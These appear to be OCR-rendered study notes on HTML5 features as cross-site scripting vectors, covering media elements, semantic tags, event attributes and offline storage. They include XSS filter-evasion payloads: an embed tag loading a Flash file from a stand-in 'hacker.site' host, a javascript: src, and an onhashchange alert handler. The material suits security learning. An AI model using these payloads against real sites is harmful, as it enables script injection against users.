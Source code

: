 ### Media Elements
```js
# Both <video> and <audio> are commonly ysed to evade XSS filters. In addition, <source>, <track> and <embed> are also useful due to the fact that they support the 'src' attribute

# Example:

<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
```

### Semantic / Structural Elements

There are many other elements introduced to improve the semantic and the structure of a page, such as:
```js
<article>
<figure>
<footer>
<header>
<main>
<mark>
<nav>
<progress>
<section>
<summary>
<time>
```

> All of them support Global and Event Attributes, both old and new.

### Attributes
There is a huge list of new events and some interesting examples are:
```js
onhashchange
onformchange
onscroll
onresize
...
```

Example:
```js
<body onhashchange="alert(1)">
  <a href="#"> Click me</a>
```

### Offile & Storage
A real world example is *TiddlyWiki*: http://tiddlywiki.com/

- Some of the major features, related to this evolution are **Application Cache** and **Web Storage** (alias Client-Side Storage or Offile storage)
